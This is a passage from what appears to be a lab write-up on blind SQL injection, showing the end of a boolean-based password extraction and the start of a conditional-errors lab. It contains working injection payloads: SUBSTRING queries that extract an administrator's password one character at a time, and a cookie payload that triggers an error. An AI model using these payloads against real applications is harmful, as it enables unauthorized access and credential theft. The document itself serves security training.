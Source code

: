 However, testing one character at a time was determined to be more time consuming

#### Step 2: Testing Subsequent Letters of password 
To optimize the process, each character of the password was tested individually using the `SUBSTRING` function. The following payloads were sent to test each position:
```
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),2,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),3,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),4,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),5,1)='a
...
```
This process was repeated for each character position, testing all possible letters until the correct character was identified by the presence of the "Welcome back!" message.
#### Final Result

Arrange the payload number and write the payload2 alphabets (password characters) in order .
By iterating through each character position and testing all possible letters, the administrator's password was retrieved as:
```
ssmyivfjyj5m1bvch02g
```
![image](https://github.com/user-attachments/assets/f34d627b-0d15-44f8-bea4-325c386f6773)

---

### LAB 12 - Blind SQL injection with conditional errors

### Lab Description
![image](https://github.com/user-attachments/assets/fa192b98-6d18-463d-add1-af9fe982973a)

### Solution

Request looks like

![image](https://github.com/user-attachments/assets/c8137707-1861-43d2-9d76-fce6faa4a116)


### Step 1: Identifying SQL Injection
The application processes the `TrackingId` cookie in the following query:

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

- **Inducing Syntax Error**:
  - Payload: `TrackingId=xyz''`
  - Modified Query: 
    ```sql
    SELECT trackingId FROM someTable WHERE trackingId = 'xyz'''
    ```
  - Result: Error due to invalid SQL syntax (unclosed quote).
